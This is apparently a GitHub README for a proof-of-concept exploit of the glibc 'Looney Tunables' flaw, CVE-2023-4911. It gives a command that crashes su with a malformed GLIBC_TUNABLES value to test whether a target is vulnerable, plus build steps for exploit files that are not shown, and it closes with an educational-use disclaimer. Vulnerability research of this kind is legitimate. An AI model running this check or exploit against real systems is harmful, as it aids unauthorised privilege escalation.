 # PoC of CVE-2023-4911 Looney Tunables

This is a PoC of CVE-2023-4911 (a.k.a. "Looney Tunables") exploiting a bug in glibc dynamic loader's **GLIBC_TUNABLES** environment variable parsing function **parse_tunables()**.

## Getting Started

### Executing program
* We can check if target is vulnerable
```
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

* If we get a `Segmentation fault (core dumped)` then we are dealing with a vulnerable target.

### Executing program

* Create `libc.so.6` file
```
python3 libc.py
```

* Compile exploit
```
gcc exp.c -o exp
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.